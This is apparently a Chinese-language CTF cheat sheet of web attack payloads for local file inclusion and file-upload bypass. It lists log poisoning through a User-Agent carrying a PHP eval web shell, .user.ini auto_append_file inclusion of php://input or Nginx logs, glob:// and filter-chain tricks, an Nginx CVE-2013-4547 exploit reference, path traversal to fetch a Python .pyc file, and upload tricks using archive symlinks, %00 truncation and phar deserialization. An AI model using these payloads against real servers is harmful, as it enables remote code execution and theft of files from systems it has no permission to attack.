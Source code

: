 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                                                                                                         |     |
| ------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                                                                                                                 |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         | 文件包含即命令执行                                                                                                                              |     |
| glob://                                                |                                                                                                                                                 |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                      |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                                                                                                          |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                   | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
- %00 截断 php 版本小于 5.3.4
- 上传时考虑 phar 反序列化
